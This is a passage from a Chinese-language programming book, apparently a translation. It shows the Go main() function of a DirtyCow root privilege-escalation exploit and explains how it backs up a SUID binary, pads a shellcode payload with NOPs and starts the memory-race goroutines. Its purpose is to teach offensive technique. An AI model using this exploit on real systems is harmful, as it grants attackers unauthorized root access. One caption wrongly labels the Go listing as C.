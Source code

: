 *列表 9-12：C 语言中的* main() *函数*

```
func main() {
    fmt.Println("DirtyCow root privilege escalation")
    fmt.Printf("Backing up %s.. to /tmp/bak\n", SuidBinary)

  ❶ backup := exec.Command("cp", SuidBinary, "/tmp/bak")
     if err := backup.Run(); err != nil {
         log.Fatal(err)
     }

  ❷ f, err := os.OpenFile(SuidBinary, os.O_RDONLY, 0600)
     if err != nil {
         log.Fatal(err)
     }
     st, err := f.Stat()
     if err != nil {
         log.Fatal(err)
     }

     fmt.Printf("Size of binary: %d\n", st.Size())

  ❸ payload := make([]byte, st.Size())
     for i, _ := range payload {
         payload[i] = 0x90
     }
     for i, v := range sc {
         payload[i] = v
     }

  ❹ mapp, _, _ = syscall.Syscall6(
        syscall.SYS_MMAP,
        uintptr(0),
        uintptr(st.Size()),
        uintptr(syscall.PROT_READ),
        uintptr(syscall.MAP_PRIVATE),
        f.Fd(),
        0,
     )

     fmt.Println("Racing, this may take a while..\n")
  ❺ go madvise()
     go procselfmem(payload)
     waitForWrite()
}
```

*清单 9-13：Go 中的* main() *函数*

`main()` 函数首先备份目标可执行文件 ❶。由于最终会覆盖它，因此你不想丢失原始版本；丢失原文件可能会对系统产生不良影响。虽然 C 语言可以通过调用 `system()` 并传入整个命令字符串来运行操作系统命令，但 Go 版本则依赖于 `exec.Command()` 函数，它要求你将命令作为单独的参数传入。接下来，你以只读模式打开 SUID 目标文件 ❷，检索文件统计信息，并用它们来初始化一个与目标文件大小相同的有效载荷切片 ❸。在 C 中，你可以通过调用 `memset()` 填充一个数组为 NOP（0x90）指令，然后通过调用 `memcpy()` 将一部分数组替换为你的 shellcode。在 Go 中，这些便捷的函数是不存在的。
